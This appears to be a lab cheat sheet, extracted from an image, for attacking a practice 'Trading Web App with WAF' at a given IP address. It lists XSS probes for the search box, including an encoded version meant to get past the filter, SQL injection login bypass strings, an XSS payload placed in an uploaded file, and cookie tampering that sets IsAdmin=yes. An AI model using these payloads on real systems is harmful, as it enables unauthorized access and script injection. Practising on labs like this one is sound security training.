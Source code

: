 





-------------------------------------------------------------------------------------------

############################
# Trading Web App with WAF #
# http://54.213.131.105    #
############################
 
 
Try the following in the search box:
    <script>alert(123);</script>
    <script>alert(123);</script
    <script>alert(123)
    <script>alert
    <script>
    <script
    <scrip
    <scri
    <scr
    <sc
    <s
    <p
    <
    < s
    Joe'+OR+1=1;--
 
   
Open a new tab in firefox and try this:
    http://54.213.131.105/Searchresult.aspx?%u003cscript>prompt(123)%u003c/script>=ScriptName
 
 
    xss_upload.txt (Upload Bulk Order)
    <script>alert(123);</script>
 
 
Login Box:
 
    ' or 1=1 or ''='
    anything
 
 
 
Tamper Data: (notice 2 session IDs)
 
    AcmeTrading=a4b796687b846dd4a34931d708c62b49;       SessionID is md5
    IsAdmin=yes;
    ASP.NET_SessionId=d10dlsvaq5uj1g550sotcg45
 
 
 
Profile - Detail    (tamper data)
    Disposition: form-data; name="ctl00$contentMiddle$HiddenField1"\r\n\r\njoe\r\n
    joe|set
 